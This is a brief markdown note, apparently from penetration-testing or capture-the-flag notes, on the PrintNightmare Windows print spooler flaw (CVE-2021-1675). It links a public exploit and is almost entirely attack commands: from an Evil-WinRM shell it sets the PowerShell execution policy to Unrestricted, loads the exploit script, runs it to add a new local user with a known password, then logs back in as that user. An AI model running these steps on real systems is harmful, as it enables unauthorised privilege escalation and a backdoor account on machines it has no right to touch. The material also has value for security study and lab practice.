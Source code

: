 ### CVE-2021-1675
> github.link:https://github.com/calebstewart/CVE-2021-1675

```
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Restricted
*Evil-WinRM* PS C:\temp> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Unrestricted
*Evil-WinRM* PS C:\temp> Import-Module .\print-nightmare.ps1
*Evil-WinRM* PS C:\temp> Invoke-Nightmare -NewUser "john" -NewPassword "password" -DriverName "PrintMe"
```

* new evil-winrm session
```
evil-winrm -i 192.168.1.1 -u john -p password
```
